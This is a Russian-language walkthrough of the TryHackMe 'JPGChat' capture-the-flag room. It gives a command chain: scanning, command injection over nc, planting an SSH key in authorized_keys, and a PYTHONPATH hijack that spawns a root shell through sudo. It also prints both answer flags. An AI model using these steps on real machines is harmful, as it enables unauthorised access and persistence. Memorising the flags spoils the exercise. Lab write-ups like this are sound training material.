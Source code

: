 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [JPGChat](https://tryhackme.com/r/room/jpgchat) 

Всего 1 заданий:
## Задание 1
Взломайте машину и заберите флаг.

### Ответьте на вопросы ниже
Создайте точку опоры и получите user.txt
```commandline
nmap -sC -sV <IP>
nc <IP> 3000
[REPORT]
https://raw.githubusercontent.com/Mozzie-jpg/JPChat/main/jpchat.py
python3 -c "import pty;pty.spawn('/bin/bash')"
mkdir .ssh
cat > authorized_keys << EOF
> ssh-rsa AAAAB3NzaC1yc2EAAAADAQA[REDACTED]5IKZVtD53kcT6xDO+m7pk= kali@kali       
> EOF
EOF

ssh wes@<IP>
ls -la
cat user.txt
```
```commandline
JPC{487030410a543503cbb59ece16178318}
```

Повысьте свои привилегии до root и прочитайте root.txt
```commandline
sudo -l
ls -l /opt/development/test_module.py
cat > compare.py << EOF
> import os
> os.system('/bin/bash')
> EOF

chmod +x compare.py
export PYTHONPATH=/home/wes
sudo /usr/bin/python3 /opt/development/test_module.py
cat /root/root.txt
```
```commandline
JPC{665b7f2e59cf44763e5a7f070b081b0a}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
